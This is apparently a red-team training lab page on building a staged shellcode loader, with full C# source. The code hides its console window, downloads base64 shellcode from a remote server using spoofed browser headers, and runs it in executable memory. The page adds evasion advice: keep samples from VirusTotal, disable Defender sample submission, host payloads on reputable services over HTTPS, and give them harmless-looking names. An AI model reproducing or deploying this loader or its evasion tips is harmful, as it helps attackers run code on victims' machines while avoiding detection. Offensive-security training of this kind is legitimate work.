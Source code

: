# Lab - Staged Loader
<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**


> ***BEST PRACRICES***:
> By removing the payload from our loader, there is no malicious code that *static analysis* can detect. ***HOWEVER***, by shifting the code from being hardcoded into the loader to external server, it provides more IOC's for dynamic/behavioural analysis. Therefore make sure that:
> 1. Host your payload on a reputable server (onedrive, Dropbox, Akamai etc...)
> 2. Use an FQDN, not an IP address (i.e. key.crimsoncore.be instead of 192.168.100.25)
> 3. Use HTTPS to download the shellcode - the shellcode never touches disk, it gets loaded into the buffer of a program, but we want to evade network based detections
> 4. make the webrequest look legit (user agent, headers etc...)
> 4. Use a name for the shellcode that looks normal (i.e. not shellcode.bin but update.dat for example)

Advantages : Easy to change shellcodes (as they're hosted), harder to detect by static analysis.



```csharp
using System;
using System.Runtime.InteropServices;
using System.Net;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("user32.dll")]
        private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetConsoleWindow();

        const int SW_HIDE = 0;

        static void Main()
        {
            var handle = GetConsoleWindow();
            ShowWindow(handle, SW_HIDE);

            string payloadUrl = "http://10.0.0.6:9090/demon.sc.x64.b64";
            byte[] shellCode;

            using (WebClient client = new WebClient())
            {
                // Add HTTP headers    
                client.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36");
                client.Headers.Add("Accept", "application/octet-stream");
                client.Headers.Add("Accept-Encoding", "gzip, deflate");
                client.Headers.Add("Accept-Language", "en-US,en;q=0.9");
                client.Headers.Add("Referer", "https://www.contoso.com/support/downloads/latest-updates");
                // Download the Base64-encoded string
                string base64String = client.DownloadString(payloadUrl);
                // Decode the Base64 string to bytes
                shellCode = Convert.FromBase64String(base64String);
            }

            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
